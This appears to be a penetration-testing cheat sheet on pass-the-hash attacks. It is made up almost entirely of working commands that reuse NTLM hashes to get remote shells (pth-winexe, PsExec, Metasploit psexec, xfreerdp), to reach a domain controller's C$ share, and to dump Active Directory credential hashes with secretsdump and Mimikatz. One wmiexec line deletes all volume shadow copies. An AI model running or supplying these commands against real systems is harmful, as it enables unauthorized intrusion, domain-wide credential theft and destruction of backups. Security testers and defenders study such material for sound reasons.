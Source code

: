 # Pass the hash - reusing hashes

Pass the hash \(PTH\) is a technique that lets the user authenticate by using a valid username and the hash, instead of the unhashed password. So if you have gotten a hold of a hash you might be able to use that hash against another system.

Pass the hash is a suite of different tools.

## SMB

So in order to use pass the hash we first need to put the hash in a env variable using the export command:

So we will authenticate against a smb-service.

```
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
```

```
pth-winexe -U administrator //192.168.1.101 cmd
```

I think you can run it like this too:

```
pth-winexe -U admin/hash:has //192.168.0.101 cmd
```

### More examples

```
pth-winexe -U ./Administrator%aad3b435b51404eeaad3b435b51404ee:4b579a266f697c2xxxxxxxxx //10.145.X.X cmd.exe
pth-winexe -U EXAMPLE/Administrator%example@123 //10.145.X.X cmd.exe
```

[https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html](https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html)

## More PTH tools and examples

Metasploit

```
use exploit/windows/smb/psexec
set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
```

[https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)

Command line shell on CORPSQLSERVER01

```
pth-winexe -U corp/user_a%aad3b435b51404eeaad3b435b51404ee:48663e7b299fe3a7047b937804cdc34d –uninstall //corpsqlserver01 cmd.exe
```

SMB access to CORPDC01

```
pth-smbclient //CORPDC01/c$ -U corp/user_a%aad3b435b51404eeaad3b435b51404ee:48663e7b299fe3a7047b937804cdc34d
```

Run commands using WMI on CORPDC01

```
wmiexec.py –hashes aad3b435b51404eeaad3b435b51404ee:48663e7b299fe3a7047b937804cdc34d corp/user_a @CORPDC01 “vssadmin delete shadows /all /quiet” > ./NTDSData/rem_shadows.log
```

Acquire data from Active Directory \(ntds.dit\)

```
secretsdump.py -just-dc-ntlm –user-status –outputfile | ./NTDSData/CORP/ntds20170711-13.05 -hashes aad3b435b51404eeaad3b435b51404ee:48663e7b299fe3a7047b937804cdc34d corp/user_a@corpdc01
```

Command line shell using psexec on Windows

```
PsExec.exe -accepteula \\ corpsqlserver01 -s -u corp\user_a -p aad3b435b51404eeaad3b435b51404ee:48663e7b299fe3a7047b937804cdc34d cmd.exe
```

Mimikatz

```
Mimikatz.exe “privilege::debug” “sekurlsa::pth /user:[username] /ntlm:[ntlm hash] /domain:[domainname]” “exit”
```

[https://www.sans.org/reading-room/whitepapers/testing/cracking-active-directory-passwords-how-cook-ad-crack-37940](https://www.sans.org/reading-room/whitepapers/testing/cracking-active-directory-passwords-how-cook-ad-crack-37940)

## Remote Desktop

```
apt-get update
apt-get install freerdp-x11
```

```
xfreerdp /u:admin /d:domain /pth:hash:hash /v:192.168.1.101
```

[https://www.kali.org/penetration-testing/passing-hash-remote-desktop/](https://www.kali.org/penetration-testing/passing-hash-remote-desktop/)

